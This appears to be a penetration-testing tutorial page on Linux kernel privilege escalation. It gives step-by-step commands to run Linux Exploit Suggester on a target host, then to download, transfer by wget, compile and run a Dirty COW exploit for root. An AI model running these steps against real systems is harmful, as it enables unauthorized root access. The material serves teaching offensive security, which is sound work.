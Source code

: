 ```yaml
---
legal-banner: true
---
```


### **Introduction**

A kernel is essentially a “computer program” that facilitates interactions between hardware and software. This means that the kernel sits between applications (software) and the CPU / memory / devices / etc. (hardware). The job that the kernel has is to convert input/ouput (I/O) requests from software into instruction sets that interact between the software and hardware.

### **Steps to Identify and Exploit Kernel Vulnerabilities**

1.  Tools like Linux Exploit Suggester simplify finding potential exploits by scanning the system and suggesting possible exploits based on the kernel version and other details.  
    `git clone https://github.com/mzet-/linux-exploit-suggester.git`  
    
    ![](../../img/Linux-Environment/51.png)
    
2.  Host the Script Using Python:  
    `python3 -m http.server 8000`  
    
    ![](../../img/Linux-Environment/52.png)
    
3.  Transfer Script to target machine Using wget  
    `wget http://[IP-ADRESS]:8000/linux-exploit-suggester.sh`  
    
    ![](../../img/Linux-Environment/53.png)
    
4.  Make the script executable and run it on the target system:  
    `chmod a+x linux-exploit-suggester.sh && ./linux-exploit-suggester.sh`  
    
    ![](../../img/Linux-Environment/54.png)

    The tool evaluates each exploit's potential effectiveness with different exposure levels:  
    1. **highly probable:** High likelihood of success without modifications.  
    2. **probable:** Likely to work with some adjustments.  
    3. **less probable:** Requires further manual analysis.  
    4. **unprobable:** Unlikely to be effective.  
    
    ![](../../img/Linux-Environment/55.png)
    
5.  Select a reliable version of the exploit. For example, you can use a well-reviewed variant of the Dirty COW exploit.   
    `wget https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw -O dirtycow.c`  
    
    ![](../../img/Linux-Environment/56.png)
    
6.  Host the Exploit Using Python:  
    `python3 -m http.server 8000`  
    
    ![](../../img/Linux-Environment/57.png)
    
7.  Use wget to download the exploit to the target machine:  
    `wget http://[IP-ADRESS]:8000/dirtycow.c`  
    
    ![](../../img/Linux-Environment/58.png)
    
8.  Compile the exploit code on the target system:  
    `gcc -pthread dirtycow.c -o dirtycow`
    
9.  Run the compiled exploit to perform the attack:  
    `./dirtycow`  
    
    ![](../../img/Linux-Environment/59.png)

    **NOTE:** After successful execution, elevate privileges to root using:  
    `/usr/bin/passwd`